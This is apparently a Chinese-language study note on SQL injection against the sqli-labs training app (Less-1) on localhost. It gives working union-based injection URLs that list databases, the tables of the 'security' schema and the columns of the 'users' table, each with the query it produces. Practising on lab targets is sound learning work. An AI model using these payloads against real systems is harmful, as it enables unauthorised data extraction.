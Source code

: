 

**(1)爆数据库**
输入： 其中%27 为‘  ； %20 为空格；

```
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(schema_name),3%
20from%20information_schema.schemata--+
```

执行的MYSQL语句：

```
SELECT * FROM users WHERE id='-1'union select 1,group_concat(schema_name),3 from information_schema.schemata-- ' LIMIT 0,1
```

![1567441202600](005_第六周—数据库相关注入语句的收集和学习\1567441202600.png)

**(2)爆 security 数据库的数据表(sqllib的数据库为security)**

输入：

```
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(table_name),3%20f
rom%20information_schema.tables%20where%20table_schema=%27security%27--+
```

执行的MYSQL语句：

```
SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'-- ' LIMIT 0,1
```

![1567441584090](005_第六周—数据库相关注入语句的收集和学习\1567441584090.png)

**(3)爆 users 表的列**

```
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(column_name),3%2
0from%20information_schema.columns%20where%20table_name=%27users%27--+
```

执行的MYSQL语句：

```
SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'-- ' LIMIT 0,1
```
